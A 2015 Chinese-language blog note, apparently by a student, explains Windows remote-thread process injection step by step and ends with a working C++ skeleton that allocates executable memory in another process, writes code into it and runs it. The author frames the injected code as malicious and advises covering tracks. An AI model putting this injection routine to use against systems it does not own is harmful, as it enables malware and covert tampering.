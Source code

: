 ```yaml
---
title: Windows下如何进行进程注入
date: 2015-2-28 15:53
comments: true
archives: 2015
tags:
  - notes
---
```


上学期学了有关 Windows 程序底层方面的知识，学习到病毒的基本工作原理。好记性不如烂笔头，学完之余还是写点东西出来吧～
不过我也只是抛砖引玉，详细知识还是得自己多多钻研～

## 首先打开进程

首先使用 Win 系统的[OpenProcess](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms684320(v=vs.85).aspx>)API 打开所要注入的进程。
使用参数是进程的 PID，可以使用任务管理器查看进程的 PID，打开成功之后返回程序的句柄。

## 开辟内存空间

Win 系统也提供了开辟内存空间的[VirtualAllocEx](<https://msdn.microsoft.com/en-us/library/windows/desktop/aa366890(v=vs.85).aspx>)API。
传入的参数包括进程句柄，开辟起始地址，开辟空间的大小，分配的数据类型，分配空间的权限。例如： `pRemoteCode = (PBYTE) VirtualAllocEx(hProcess, 0, dwSizeOfCode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);`

## 写入恶意代码

使用 Win 系统的[WriteProcessMemory](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms681674(v=vs.85).aspx>)API 向新开辟的内存空间写入数据。注意这里写入的是二进制数据，要考虑到各种 API 函数的寻址问题。

## 执行注入的代码

微软照样还是提供了相关的[CreateRemoteThread](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms682437(v=vs.85).aspx>)API，我们注意最后一个参数是输出而不是输入。

## 获取执行的结果

如果要获取执行的结果，首先我们得等待线程的执行完成，使用[WaitForSingleObject](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms687032(v=vs.85).aspx>)API.例： `WaitForSingleObject(hThread, INFINITE);`
然后再使用[GetExitCodeThread](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms683190(v=vs.85).aspx>)API，得到返回的结果。

## 释放开辟的空间

干了坏事得不留痕迹才行，回收自己开辟的空间，使用[VirtualFreeEx](<https://msdn.microsoft.com/en-us/library/windows/desktop/aa366894(v=vs.85).aspx>)API.

## 关闭打开的进程

打开的进程也得关闭，使用[CloseHandle](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms724211(v=vs.85).aspx>)API.

代码示例：

```cpp
hProcess = OpenProcess(PROCESS_CREATE_THREAD
    | PROCESS_QUERY_INFORMATION
    | PROCESS_VM_OPERATION
    | PROCESS_VM_WRITE
    | PROCESS_VM_READ,
    FALSE, PID);

if (hProcess == NULL) {
    printf("failed.\n");
    return -1;
}
printf("ok.\n");

printf("[I]: Allocating remote memory with size of 0x%08x ......",
    dwSizeOfCode);

pCodeRemote = (PBYTE) VirtualAllocEx(hProcess,
        0,
        dwSizeOfCode,
        MEM_COMMIT,
        PAGE_EXECUTE_READWRITE);
if (pCodeRemote == NULL) {
    printf("failed.\n");
    CloseHandle(hProcess);
    return -1;
}
printf("ok at 0x%08x.\n", pCodeRemote);

do_link_before_inj(pCodeRemote);

printf("[I]: Writing code ......");
if (WriteProcessMemory(hProcess,
        pCodeRemote,
        pCode,
        dwSizeOfCode,
        &dwNumBytesXferred) == 0) {
    printf("failed.\n");
    VirtualFreeEx(hProcess, pCodeRemote,
            dwSizeOfCode, MEM_RELEASE);
    CloseHandle(hProcess);
    return -1;
};
printf("ok (%d bytes were written).\n", dwNumBytesXferred);

printf("[I]: Creating a remote thread ......");
hThread = CreateRemoteThread(hProcess, NULL, 0,
        (LPTHREAD_START_ROUTINE) pCodeRemote,
        pCodeRemote, 0 , &dwThreadId);
if (hThread == 0) {
    printf("failed.\n");
    if ( pCodeRemote != 0 )
        VirtualFreeEx(hProcess, pCodeRemote, 0, MEM_RELEASE);
    if ( hThread != 0 )
        CloseHandle(hThread);
    return -1;
}
printf("ok.\n");

printf("[I]: Waiting the remote thread ......");
WaitForSingleObject(hThread, INFINITE);
GetExitCodeThread(hThread, (PDWORD) &exitcode);
printf("exited with 0x%08X\n", exitcode);

VirtualFreeEx(hProcess, pCodeRemote, 0, MEM_RELEASE);
CloseHandle(hProcess);
```
